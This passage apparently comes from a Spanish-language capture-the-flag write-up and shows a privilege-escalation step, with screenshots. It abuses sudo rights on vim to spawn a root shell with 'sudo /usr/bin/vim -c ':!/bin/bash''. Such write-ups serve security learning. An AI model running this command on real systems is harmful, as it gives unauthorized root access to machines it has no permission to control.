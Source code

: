     <img src="../img/Pasted_image_20250101215208.png" width="500">
</p>

Ejecutando el comando indicado podemos lanzarnos una `bash`. Entonces ejecutamos el comando:
```
sudo /usr/bin/vim -c ':!/bin/bash'
```

<p align="center">
    <img src="../img/Pasted_image_20250101215353.png" width="500">
</p>

Somos el usuario `root`.